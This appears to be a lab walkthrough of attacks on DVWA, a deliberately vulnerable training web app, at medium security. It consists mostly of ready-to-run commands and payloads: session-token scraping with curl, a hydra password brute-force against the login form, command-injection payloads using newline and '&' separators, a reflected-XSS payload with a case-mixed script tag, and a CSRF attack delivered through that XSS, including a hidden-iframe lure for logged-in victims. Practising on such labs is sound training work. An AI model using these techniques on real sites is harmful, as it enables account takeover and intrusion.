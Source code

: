 
### Target

    https://github.com/ethicalhack3r/DVWA

    Security level: medium

### Prereq

    # get user token
    $ TOKEN=$(curl -c dvwa.session -s http://192.168.56.101/DVWA/login.php | grep 'user_token' | awk -F 'value=' '{print $2}' | cut -d"'" -f2)

    # get session id
    $ PHPSESSID=$(grep PHPSESSID dvwa.session | awk -F' ' '{print $7}')

    # log in
    $ curl -L -b "PHPSESSID=${PHPSESSID};security=medium" -v -d "username=admin&password=password&Login=Login&user_token=${TOKEN}" http://192.168.56.101/DVWA/login.php

### Brute Force

    $ wget https://raw.githubusercontent.com/seifreed/dirb/master/wordlists/others/best110.txt

    $ hydra -t 8 -l admin -P best110.txt -vV 192.168.56.101 http-get-form "/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:F=password incorrect:H=Cookie: PHPSESSID=${PHPSESSID};security=medium"

### Command Injection

```
# '\n' as a bash commands separtor
$ curl -s -b "PHPSESSID=${PHPSESSID};security=medium" -d 'ip=%0auname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    

OR

# '&' as a bash commands separtor
$ curl -s -b "PHPSESSID=${PHPSESSID};security=medium" -d 'ip=%26uname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    
```

### CSRF

XSS vulnerability on the DVWA site (for example this in `http://192.168.56.102/DVWA/vulnerabilities/xss_r`) needs to be used in order do defeat `Referer` check:

```
# trick victim to visit (while logged in to DVWA) the following:
http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Enew%20Image().src=%22http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=pass2%26password_conf=pass2%26Change=Change%22%3C%2Fscript%3E%3Cpre%3E#

OR

# trick victim to visit 3rd party site (while logged in to DVWA) with already planted iframe:
<iframe SRC='http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Enew%20Image().src=%22http://192.168.56.102/DVWA/vulnerabilities/csrf/?password_new=pass3%26password_conf=pass3%26Change=Change%22%3C%2Fscript%3E%3Cpre%3E#' height="0" width="0"></iframe>
```

### XSS (Reflected)

    http://192.168.56.102/DVWA/vulnerabilities/xss_r/?name=%3C/pre%3E%3CScRiPt%3Ealert(1)%3C%2Fscript%3E%3Cpre%3E#
